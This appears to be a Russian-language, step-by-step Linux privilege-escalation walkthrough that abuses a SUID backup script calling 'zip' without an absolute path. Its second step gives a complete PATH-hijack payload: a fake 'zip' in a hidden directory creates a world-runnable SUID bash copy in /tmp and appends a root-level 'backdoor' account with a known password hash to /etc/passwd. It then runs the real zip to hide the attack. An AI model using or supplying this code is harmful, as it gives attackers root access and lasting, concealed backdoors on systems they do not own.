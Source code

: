 
#### Шаг 1: Обнаружение уязвимости
> Поиск SUID-скрипта, вызывающий `zip` без полного пути
```bash
# Поиск SUID-бинарников
find / -perm -4000 -type f 2>/dev/null | grep -v "/snap/"

# Анализируем подозрительный бинарник
strings /usr/local/bin/backup_reports | grep "zip"
# zip -r /backups/reports.zip /var/reports
```

**Пояснения:**
- При вызове `backup_reports` будет использована версия `zip` из PATH пользователя

---

#### Шаг 2: Подготовка вредоносного zip
```bash
# Создаем скрытую директорию
mkdir -p ~/.cache/.bin && cd ~/.cache/.bin

# Создаем вредоносный скрипт zip
cat > zip <<'EOF'
#!/bin/bash

# Полезная нагрузка:
# 1. Создаем SUID-копию /bin/bash
if [ ! -f /tmp/.sh ]; then
    cp /bin/bash /tmp/.sh
    chmod 4777 /tmp/.sh
fi

# 2. Добавляем скрытого пользователя
if ! grep -q "^backdoor:" /etc/passwd; then
    echo 'backdoor:$1$salt$r8QzR2KdWXJfF7ZzD8lDq/:0:0::/root:/bin/bash' >> /etc/passwd
fi

# 3. Запускаем настоящий zip с оригинальными аргументами
/usr/bin/zip "$@"
EOF

# Делаем скрипт исполняемым
chmod +x zip
```

**Пояснения:**
1. `cp /bin/bash /tmp/.sh && chmod 4777 /tmp/.sh`
   - Создает копию Bash с SUID-битом
   - Любой пользователь может запустить `/tmp/.sh -p` для получения root-доступа
2. `echo 'backdoor:...' >> /etc/passwd`
   - Добавляет пользователя `backdoor` с UID=0 (root)
   - Пароль с солью: `password` (хэш `$1$salt$r8QzR2KdWXJfF7ZzD8lDq/`)
3. `/usr/bin/zip "$@"`
   - Вызывает настоящий `zip` с оригинальными аргументами
   - Маскирует атаку - архив создается корректно

---
